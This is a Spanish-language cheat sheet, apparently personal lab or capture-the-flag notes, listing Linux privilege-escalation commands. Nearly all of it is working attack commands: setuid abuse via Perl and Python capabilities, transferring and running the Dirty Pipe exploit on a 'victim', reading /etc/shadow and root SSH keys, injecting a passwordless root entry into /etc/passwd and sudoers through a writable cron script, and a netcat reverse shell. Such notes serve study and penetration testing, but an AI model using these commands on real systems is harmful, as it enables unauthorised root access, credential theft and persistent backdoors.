 # Escalacion de privilegios Linux

Tags: #Linux #Escalada #Root #Privilegios 

## Enumeracion Tools


## Manual 

❯ **sudo -l** Ver que permisos tenemos en el sudoers (l=ele)
	(ALL : ALL) ALL
	(root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
	* GTFOBins [GTFOBins](https://gtfobins.github.io/)

❯ **su root** Para convertirnos en root y debemos de proporcionar una passwd
❯ **uname -a** Miramos informacion del Kernel
❯ **id** Para ver si estamos en un grupo especial

❯ **find / -perm -4000 2>/dev/null** Buscaremos por privilegios suid
* pkexec -> Podriamos usar el Pwkit


❯ **which getcap** Para ver si esta instalado el Getcap y mirar las capabilities
❯ **getcap -r / 2>/dev/null** Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)
* **/usr/bin/perl = cap_setuid+ep** Esta capabilitie nos permite gestionar el UID
	❯ **setcap cap_setuid+ep /usr/bin/perl** 
	❯ **perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'** Para conseguir la consola interactiva

**Apparmor** que es modulo de seguridad del Kernel Linux que permite al administrador del sistema restringir las capabilities de un programa. En esta ocasion nos restringe la capabilitie de Perl. Pero podemos hacer lo siguiente:
❯ **touch prueba.sh** Creamos el archivo y nos ayudara a tener una consola interactiva aprovechandonos del Shebang que son #!
	#!/usr/bin/perl
	**use POSIX qw(setuid);**
	**POSIX::setuid(0);**
	**exec "****/bin/sh";
❯ **chmod** **+x prueba.sh** la ejecucion
❯ **./prueba.sh** Ejecutamos el comando anterior.
****
* **/usr/bin/python3.9 = cap_setuid+ep** Esta capabilitie nos permite gestionar el UID para convertirnos en Root (ID=0)
	❯ **setcap cap_setuid+ep /usr/bin/python3.9** Agregas la capabilitie a la ruta python
	❯ **setcap -r /usr/bin/pthon3.9** Le quitas la capabilitie a la ruta de python
	❯ **python3.9**
		**❯ import os**
		**❯ os.setuid(0)** – (0= el usuario root)
		**❯ os.system(“/bin/sh”)** Entras a una sh



❯










- **LinPEAS github** ->  Lo descargamos y al momento de ejecutarlo, nos muestra vias potenciales para escalar privilegios, debemos hacerlo desde una bash
	- Comando -> **nc -nlvp 4646 | bash** Para que al momento de recibir el codigo, lo interprete y lo ejecute 
	- Comando -> **curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > /dev/tcp/IP Victim/4646**
Si te reporta algunas cosas en naranja, quiere decir que son vias potenciales para escalar privilegios

Con Dirty-Pipe del siguiente repo https://github.com/arinerron/CVE-2022-0847-DirtyPipe-Exploit Esto servira a partir del Kernel 5.8
Debemos de traerlo a nuestra maquina de atacnte 
- Comando -> **git clone https://github.com/arinerron/CVE-2022-0847-DirtyPipe-Exploit** 
- Comando -> **gcc exploit.c -o exploit** Creas el compilado
- Comando -> **python3 -m http.server 80** Pasas el compilado a la maquina victima, colocando un servidor 
Debemos de colocarnos el maquina victima en la carpeta de /tmp/
- Comando -> **wget http://10.10.14.12/exploit** En la maquina victima cargas el compilado 

Si no tiene wget lo podemos hacer con Netcat 
- Comando -> **nc -nlvp 443 < exploit** Mandaremos el archivo por netcat, desde nuestra maquina de atacante
- Comando -> **nc 10.10.14.12 443 > exploit** En la maquina victima cargamos el archivo, Colocamos la IP de nuestra maquina de atacante

Si no funciona lo mandamos por base64
- Comando -> **base64 -w 0 exploit; echo** Con echo podremos ver el resultado de la codificacion en base64, solo debmos copiarlos y lo pegamos en la maquina victima  
- Comando -> **echo "resultado del comando de arriba" | base64 -d > dirtypipe** Hacemos que lo decodifique con base64 y lo colocamos en un archivo llamado DirtyPipe
- Comando -> **chmod +x dirtypipe** Le damos permisos de ejecucion 
- Comando -> **./dirtypipe** Lo ejecutamos esperando a que nos de Shell como Root

- Comando -> **find / -perm -4000 -user root 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios pero en este caso del usuario root
	Encontrar **/usr/local/bin/backup** Es un script que podemos usar
	
- Comando -> **find / -perm -4000 -user root -ls 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios pero en este caso del usuario root, tambien nos reportara el usuario, grupo y permisos




Otra que podemos encontrar en las capabilities es un tac: El tac es un cat pero te muestra el contenido al reves
	***/usr/bin/tac* = cap_dac_read_search+ei** Con esta capabilitie podemos utilizar ese comando para poder leer cualquier archivo privilegiado del sistema
	- Comando -> **tac < File>** Podemos colocar un archivo de alguna ruta como /etc/shadow, /root/.ssh/id_rsa, etc... o un file directamente y lo hara como root 
	Tambien pordemos conectarnos al usuario root obteniendo su clave privada de la siguente manera:
			- Comando -> **tac /root/.ssh/id_rsa | tac** Podemos ver la clave privada del usuario root, colocarla en un archivo que se llame id_rsa y asi podernos conectar por ssh con esa id_rsa, colocandole el privilegio 600, le ponemos doble tac para que se vea como un cat 



- Comando -> **find / -writable 2>/dev/null | grep -vE "/var|/run|/dev|/tmp|/lib|/proc|/sys"** Buscamos archivo desde la raiz con capacidad de escritura y los errores los ocultamos, ademas de quitar (vE=quitas multiples palabras) vas,dev,run, etc... y al final encontraremos **/etc/passwd**
- Comando -> **find / -writable -ls 2>/dev/null | grep -vE "/var|/run|/dev|/tmp|/lib|/proc|/sys"** Buscamos archivo desde la raiz con capacidad de escritura y los errores los ocultamos, ademas de quitar (vE=quitas multiples palabras) vas,dev,run, etc... y al final encontraremos **/etc/passwd**, con ls podemos ver el propietario y si el grupo otros pueden modificarlo (w=write)
		Si podemos entrar al **/etc/passwd** podemos ponerle al usuario root una passwd directamente hasheada de forma hardcodeada, para que al momento de hacer un **sudo su** compare directamente con lo que colocamos y no lo lea del **/etc/shadow**
	- Comando -> **openssl passwd** Creamos una passwd en formato DES(unix), y este lo colocaremos en la parte verde de root:**x**:0:0 y guardamos el archivo


- Comando -> **cat /etc/crontab** Tareas CRON, que son tareas que se ejecutan a intervalos regulares de tiempos en el sistema 
	Si miramos esta ruta en el file **\*/S * * * * root /writable/script.sh** Podemos escribir lo que sea dentro de ese archivo y asi ganar privilegio: 
		**echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers** Hacemos que no nos pida la passwd
		**nc < IP> < PORT> -e /bin/sh** Para poder hacer una revershell
		**echo "newRoot::0:0:newRoot:/home/newRoot:/bin/sh" >> /etc/passwd** Para poder tener acceso a todo



- Comando -> **cd .ssh** Nos dirigimos al dir SHH que contiene un archivo con la clave privada **id_rsa (clave privada)**, este se encuentra en **home/user/.ssh/id_rsa** o la publica **home/user/.ssh/id_rsa.pub** o las **home/user/.ssh/authorized_keys**
	- **nano** **id_rsa** Creamos el archivo y le pegamos el contenido del id_rsa que habiamos encontrado en la maquina victima
	- **chmod 600** **id_rsa** Le cambiamos los privilegios para poderla usar el archivo
	- **ssh -i** **id_rsa** **< USER>@< IP>** Conectarnos con el id_rsa a la maquina victima por medio de ssh sin proporcionar la password
- Comando -> **ssh < user>@localhost** Por lo que cuando tenemos un authorized_keys podemos entrar por SSH sin proporcionar passwd en forma local 


- Comando -> **ps -faux** Listas los procesos que corren en la maquina Linux
Encontramos un **tightvnc**. Esto es una aplicacion informatica de codigo abierto para administracion remota multiplataforma que utiliza el protocolo RFB deVNC para controlar panatlla de otro equipo de forma remota. Y los puerto que comunmente corre es el 5900-5901, 5800-5801
	Seguimos los pasos de la parte del Port Forwardin Dinamico



- Comando -> **ps aux | grep "^root"** Mostrara todos los procesos que estan corriendo como root

Path Hajacking -> Sirve para secuestrar el path y hacer que el comando que vas a ejecutar lo busque en la ruta que quieres.

- Comando -> **find .** Para ver archivos y sus extensiones y asi ver si podemos ejecutar alguno

En lugar de **pspy**, nosotros creamos nuestro propio script para ver lor procesos nuevos, antiguos, asi como comandos y ver cual proceso nos puede ayudar a escalar privilegios.
Podemos hacer el script o podemos ejecutar el comando asi solo: **ps -eo command**
- Comando -> **nano file.sh**
	#!/bin/bash
	
	funtion ctrl_c(){
		echo -e "\\n[!] Saliendo \\n"
		tput cnorm; exit 1
	}
		
	\# Ctrl + c
	trap ctrl_c INT
	tput civis
	old_process="\$(ps -eo command)"

	while true; do
		new_process="\$(ps -eo command)"
		diff <(echo "\$old_process")<(echo "\$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker
		old_process=\$new_process
	done	
Despues encontramos un archivo que lo esta ejecutando root y otros lo pueden modificar 
- Comando -> **nano /opt/tmp.py**
	os.system('chmod u+s /bin/bash')
Modificando esa parte le diremos que otorgue el privilegio usid a la bash, para que cuando lo ejecute le pondra el s asi: -rw**s**r-xr-x root root 
- Comando -> **bash -p** Para ejecutar la bash con privilegios (p=priviledge) y atentara contra el propietario root
El comando ps nos permite detectar todos los comandos y procesos que se estan ejecuatndo en el sistema
